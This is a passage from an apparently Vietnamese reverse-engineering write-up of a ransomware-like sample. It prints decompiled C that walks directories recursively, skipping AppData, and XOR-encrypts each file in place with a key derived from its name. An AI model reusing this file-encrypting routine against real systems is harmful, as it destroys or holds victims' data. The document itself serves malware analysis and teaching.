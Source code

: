 ```c
      fclose(Stream);
      free(v4);
      free(Block);
    }
  }
}
```

Mở file `FileName`, đọc toàn bộ nội dung vào bộ nhớ, gọi sub_401460 để sinh một bộ khóa theo tên file, `XOR` từng byte của `file` với khóa đó rồi ghi ngược lại (tức là mã hoá file) và in thông báo.

- `sub_4015FD`: 

```c
void *__cdecl sub_4015FD(char *a1)
{
  void *result; // eax
  void *v2; // edi
  int v3; // eax
  const char *Str1; // ebx
  _stat32 Stat; // [esp+2Ch] [ebp-43Ch] BYREF
  char FileName[1048]; // [esp+50h] [ebp-418h] BYREF

  result = (void *)sub_403A60(a1);
  if ( result )
  {
    v2 = result;
    while ( 1 )
    {
      v3 = sub_403C20(v2);
      if ( !v3 )
        break;
      Str1 = (const char *)(v3 + 12);
      if ( strcmp((const char *)(v3 + 12), ".") )
      {
        if ( strcmp(Str1, "..") )
        {
          if ( strcmp(Str1, "AppData") )
          {
            sub_4023B0(FileName, 1024, "%s\\%s", a1, Str1);
            if ( stat(FileName, &Stat) != -1 )
            {
              if ( (Stat.st_mode & 0xF000) == 0x4000 )
              {
                sub_4015FD(FileName);
              }
              else if ( (Stat.st_mode & 0xF000) == 0x8000 )
              {
                sub_4014D1(FileName);
              }
            }
          }
        }
      }
    }
    return (void *)sub_403C70(v2);
  }
  return result;
}
```
